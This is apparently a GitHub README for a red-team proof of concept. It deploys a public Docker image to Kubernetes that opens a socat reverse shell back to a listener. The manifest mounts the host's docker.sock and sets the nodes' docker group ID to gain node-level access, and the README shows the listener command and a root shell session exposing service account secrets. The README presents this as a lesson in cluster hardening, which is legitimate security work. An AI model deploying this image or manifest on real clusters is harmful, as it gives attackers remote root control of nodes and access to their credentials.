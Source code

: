 This is a proof of concept aimed to demonstrate the need to implement containter inspection, network security policies, etc. in a Kubernetes cluster. Also a reminder to always review carefully what a docker container or kubernetes deployment /helm chart.

This deployment launches a docker container available in docker hub as below:

    docker pull jordimiralles/redteam-gkpown:latest

Whem the docker container starts it sends a reverse shell with socat to the specified addres and port. If your destination server is listening for that connection, like this, for example: 

        socat file:`tty`,raw,echo=0 tcp-listen:9532

At this point we have direct access to the docker. The fun part of the deal though is that the deployment also assigned the container the same group id as the kubernetes noes, like this:

(...)
 spec:
      securityContext:
        fsGroup: 412    # Group ID of docker group on k8s nodes.
      containers:
        - name: gkpown
          image: jordimiralles/redteam-gkpown
          imagePullPolicy: Always
          volumeMounts:
            - name: dockersock 
mountPath: "/var/run/docker.sock"
(...)

So we should have access to all the node context.You can check it very easily:

tux at basecamp in ~/code/github/redteam-gkpown (master●●)
$  socat file:`tty`,raw,echo=0 tcp-listen:9532
/bin/sh: can't access tty; job control turned off
/gkpown # 
/gkpown # 
/gkpown # 
/gkpown # 
/gkpown # whoami
root
/gkpown # df -h
Filesystem                Size      Used Available Use% Mounted on
overlay                  25.4G     18.3G      7.0G  72% /
tmpfs                     6.4G         0      6.4G   0% /dev
tmpfs                     6.4G         0      6.4G   0% /sys/fs/cgroup
/dev/sda1                25.4G     18.3G      7.0G  72% /dev/termination-log
/dev/sda1                25.4G     18.3G      7.0G  72% /etc/resolv.conf
/dev/sda1                25.4G     18.3G      7.0G  72% /etc/hostname
/dev/sda1                25.4G     18.3G      7.0G  72% /etc/hosts
shm                      64.0M         0     64.0M   0% /dev/shm
tmpfs                     6.4G      2.0M      6.4G   0% /run/docker.sock
tmpfs                     6.4G     12.0K      6.4G   0% /run/secrets/kubernetes.io/serviceaccount
tmpfs                     6.4G         0      6.4G   0% /proc/kcore
tmpfs                     6.4G         0      6.4G   0% /proc/timer_list
tmpfs                     6.4G         0      6.4G   0% /sys/firmware


